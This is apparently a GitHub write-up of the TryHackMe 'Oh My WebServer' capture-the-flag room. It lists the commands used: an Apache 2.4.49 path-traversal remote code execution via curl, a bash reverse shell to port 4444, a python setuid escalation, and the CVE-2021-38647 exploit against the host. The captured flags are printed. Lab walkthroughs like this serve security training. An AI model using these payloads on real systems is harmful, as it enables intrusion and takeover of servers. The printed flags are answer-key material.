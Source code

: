 # <div align="center">[Oh My WebServer](https://tryhackme.com/r/room/ohmyweb)</div>
<div align="center">Can you root me?</div><br>

<div align="center">
<img src="https://github.com/user-attachments/assets/2f7ecf5b-ab91-4a12-bfd5-bcd55e359857" height="200"></img>
</div>

## Task 1. oh-My-Webserver

### What is the user flag?

* ```nmap -sSCV <IP>```
* ```searchsploit Apache 2.4.49```
* ```https://www.exploit-db.com/exploits/50383```
* ```curl -s --path-as-is -d "echo Content-Type: text/plain; echo; /etc/passwd" http://<IP>/cgibin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"```
* ```curl 'http://<IP>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type:text/plain; echo; bash -i >& /dev/tcp/<IP>/4444 0>&1'```
* ```nc -lvnp 4444```
* ```ls -la```
* ```ifconfig```
* ```python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'’```
* ```cat /root/user.txt```
```
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
### What is the root flag?
* ```curl http://<my_own_IP>/nmap -o /tmp/nmap
./nmap -sSCV -p- 172.17.0.1
# https://github.com/AlteredSecurity/CVE-2021-38647
python3 CVE-2021-38647.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root*'
```
THM{7f147ef1f36da9ae29529890a1b6011f}
```
### Done 🙂
